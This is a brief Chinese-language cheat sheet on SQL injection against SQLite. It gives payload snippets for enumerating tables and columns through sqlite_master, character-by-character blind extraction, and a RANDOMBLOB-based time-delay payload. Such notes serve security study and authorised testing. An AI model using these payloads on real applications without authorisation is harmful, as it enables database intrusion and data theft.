

# SQLite注入

#### 注释符：

```sql
/**/
--
可用#判断，如果#不管用则不是mysql
```

#### 查询表名：

```sql
SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
#过滤sqlite开头的系统表名
```

#### 查询列名：

```sql
SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name'

```

#### 字符串截取：

```sql
substr() substring() like = > < in between 于mysql差不多
 特有的： trim、ltrim、rtrim、printf
 trim ：TRIM (字符串,要移除的字符) 如果要移除的字符不写，默认是空格
 printf ：
  select printf('%.1s','abc') = a
  如果printf('%.is', 'abc')=printf('%.i+1s', 'abc') 则说明字符串长度为i

```

#### 字符串比较：

```sql
1.与mysql同部分略
2.GLOB 运算符相当于等于，且其遵循unix语法

```

#### 条件：

```sql
1.case when X then Y else Z end 这个语句和mysql是相同的
2.还可以写作 iif(X,Y,Z) 

注意:
sqlite中没有if语句
iif只有version>=3.32可用

```

#### 构造报错：

mysql中可以使用exp(999999) cot(0)等等。

sqlite中使用randomblob(N) 返回N-byte blob

#### 时间盲注：

sqlite中并没有sleep()这样的延时函数

```sql
select 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([秒]00000000/2))))
```


